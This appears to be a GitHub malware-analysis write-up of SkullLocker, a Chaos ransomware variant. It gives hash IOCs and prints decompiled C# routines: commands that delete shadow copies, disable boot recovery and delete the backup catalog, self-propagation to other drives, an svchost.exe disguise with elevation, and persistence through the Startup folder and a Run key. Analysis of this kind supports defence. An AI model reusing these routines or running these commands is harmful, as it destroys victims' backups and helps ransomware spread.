 # SkullLocker-Anlysis
A small Analysis of SkullLocker Code  



#### (SkullLocker is new Variant of Chaos Ransomware )

*IOCS :*

- SkullLocker : 

MD5 : 62e53bc5aa5f2a70a54e328bff51505f

SHA1 : e7deceee97a09d539d81eb91f988ece5e2a2ff51

SHA256 : bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369

- Chaos :

MD5 : 98274f8ae42ac490c3441b3b14459356

SHA1 : 59a80c57499b6eb5de31fcbf582eeeb1c3b20e9d

SHA256 : d09b875ead838ec256b863b5e8e252d5bca9172b5479b00699ff31b4d745c92b

*Behaviour :*

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```

```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup .


##  Encryption :

![Schema](works.png)

- XML string representation of an RSA public key.

```cs
public static string rsaKey()
		{
			StringBuilder stringBuilder = new StringBuilder();
			stringBuilder.AppendLine("<?xml version=\"1.0\" encoding=\"utf-16\"?>");
			stringBuilder.AppendLine("<RSAParameters xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">");
			stringBuilder.AppendLine("  <Exponent>AQAB</Exponent>");
			stringBuilder.AppendLine("  <Modulus>4On6FTL3V5M4vs3OcxgegY+zBSLFwmoId3WY+pftKnF6iQzRS6axqTFO6ciu1N/JJwU5FKbMx1AauuHO4j0miKeDiKWRiv2O3O2QaVFZhggupZp/P0amGQa9NYG9eHSB7kL5UHFDOgk44EyTTOYeDoA2c9C83YHyPF3/WrkfQrE=</Modulus>");
			stringBuilder.AppendLine("</RSAParameters>");
			return stringBuilder.ToString();
		}
```

- Function to generate a random password with the given length

```cs
public static string CreatePassword(int length)
		{
			StringBuilder stringBuilder = new StringBuilder();
			Random random = new Random();
			while (0 < length--)
			{
				stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"[random.Next("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)]);
			}
			return stringBuilder.ToString();
		}
```
